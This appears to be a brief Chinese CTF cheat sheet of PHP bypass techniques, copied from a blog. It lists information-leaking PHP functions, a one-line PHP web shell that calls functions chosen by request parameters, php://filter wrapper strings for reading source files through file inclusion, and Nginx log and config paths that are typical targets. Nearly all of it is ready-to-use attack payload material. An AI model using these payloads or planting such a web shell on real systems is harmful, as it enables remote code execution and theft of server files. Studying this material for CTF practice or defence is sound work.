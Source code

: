 FROM 

```
https://lazzzaro.github.io/2020/05/18/web-PHP%E7%BB%95%E8%BF%87/index.html#create-function
```



---



## 常用函数

phpinfo() #PHP配置页

file_get_contents() #获取文件内容

get_defined_vars() #获取所有文件（包括包含的文件）变量的值



## 变种一句话

**PHP**

```
$_GET[a]($_GET[b]);
```



## 常用php://filter过滤器

- **无过滤器**

  `php://filter/resource=`

- **字符串过滤器**

  `php://filter/read=string.rot13/resource=`

  `php://filter/read=string.toupper/resource=`

  `php://filter/read=string.tolower/resource=`

  `php://filter/read=string.string_tags/resource=`

- **转换过滤器**

  `php://filter/read=convert.base64-encode/resource=`

  `php://filter/read=convert.quoted-printable-encode/resource=`



## 常用路径

- **Nginx**

  复制

  ```
  日志：
  /var/log/nginx/access.log
  
  配置：
  /etc/nginx/nginx.conf
  /usr/local/nginx/conf/nginx.conf
  ```
